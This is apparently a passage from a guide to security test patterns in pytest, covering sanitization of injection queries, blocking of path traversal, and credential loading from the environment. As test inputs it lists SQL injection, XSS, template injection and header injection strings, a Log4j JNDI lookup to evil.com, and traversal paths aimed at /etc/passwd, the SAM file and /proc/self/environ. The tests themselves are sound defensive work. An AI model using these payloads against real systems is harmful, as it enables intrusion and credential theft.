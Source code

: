 ```python

# Pattern: Test query injection prevention
def test_query_injection_prevention():
    """Test that malicious queries are sanitized"""
    malicious_queries = [
        "'; DROP TABLE users; --",
        "\" OR 1=1 --",
        "<script>alert('xss')</script>",
        "${jndi:ldap://evil.com/a}",  # Log4j pattern
        "{{7*7}}",  # Template injection
        "%0d%0aContent-Length:%200",  # Header injection
    ]
    
    for query in malicious_queries:
        sanitized = sanitize_search_query(query)
        # Verify dangerous patterns are removed/escaped
        assert "DROP TABLE" not in sanitized
        assert "<script>" not in sanitized
        assert "${jndi:" not in sanitized
```

### File Path Validation

```python
# Pattern: Test path traversal prevention
def test_path_traversal_prevention():
    """Test that path traversal attempts are blocked"""
    dangerous_paths = [
        "../../../etc/passwd",
        "..\\..\\windows\\system32\\config\\sam",
        "/etc/passwd",
        "C:\\Windows\\System32\\config\\SAM",
        "../../../../proc/self/environ",
        "./uploads/../../../etc/passwd",
        "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd",  # URL encoded
    ]
    
    for path in dangerous_paths:
        with pytest.raises(SecurityError):
            validate_file_path(path)
```

## Credential Management Testing

### Environment Variable Security

```python
# Pattern: Test secure credential loading
def test_secure_credential_loading():
    """Test that credentials are loaded securely from environment"""
    # Test missing required credentials
    with mock.patch.dict(os.environ, {}, clear=True):
        with pytest.raises(ConfigurationError) as exc:
            load_credentials()
        assert "OPENAI_API_KEY" in str(exc.value)
    
    # Test credential format validation
    with mock.patch.dict(os.environ, {"OPENAI_API_KEY": "invalid"}):
        with pytest.raises(ValidationError):
            load_credentials()

# Pattern: Test credential rotation
def test_credential_rotation():
```